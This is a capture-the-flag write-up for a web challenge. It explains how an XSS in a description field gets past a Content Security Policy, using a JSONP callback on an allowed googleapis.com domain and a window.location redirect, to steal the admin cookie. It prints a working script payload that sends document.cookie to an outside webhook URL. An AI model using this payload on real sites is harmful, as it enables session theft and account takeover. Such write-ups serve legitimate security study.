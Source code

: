 # Solution

- Flag is stored in the keyboards table. We can query a keyboard with `/keyboard/<id>`
- We cannot view the flag keyboard without the admin cookie
- `agent.approve_keyboard()` is used in `submit_keyboard()` and `app.approve_keyboard()`
- There is an XSS in the submit description field, but CSP is blocking us.
`*.googleapis.com` is allowed in script-src so you can use one of the domains and jsonp callbacks to get JS execution
- `connect-src: self` is blocking HTTP requests when exfiltrating cookies. You can bypass this using a redirect with `window.location`
- Once you have the admin cookie, view the flag keyboard http://116.202.98.159:31790/keyboard/4

```
<script src="https://www.googleapis.com/customsearch/v1?callback=(function(){window.top.location.href=`https://webhook.site/887722a2-39e8-4ac2-869e-64489b72347d/${document.cookie}`})()"></script>
```

Flag: `pingCTF{1_0n1y_u53_4_m0u53_4nyw4y}`

Solved by: benkyou
